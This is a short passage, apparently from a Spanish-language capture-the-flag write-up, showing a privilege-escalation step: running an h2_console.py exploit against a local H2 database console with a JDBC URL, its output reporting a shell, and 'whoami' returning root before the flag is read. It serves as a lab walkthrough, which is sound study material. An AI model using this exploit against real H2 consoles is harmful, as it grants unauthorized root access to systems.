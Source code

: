 Para su ejecución tenemos que indicarle el host y el valor **jdbc**:

```bash
❯ python3 h2_console.py -H 127.0.0.1:4646 -d jdbc:h2:~/k4mi
[*] Attempting to create database
[+] Created database and logged in
[*] Sending stage 1
[+] Shell succeeded - ^c or quit to exit
h2-shell$ whoami
root

h2-shell$
```

A este punto ya somos el usuario **root** y podemos visualizar la flag (root.txt). 
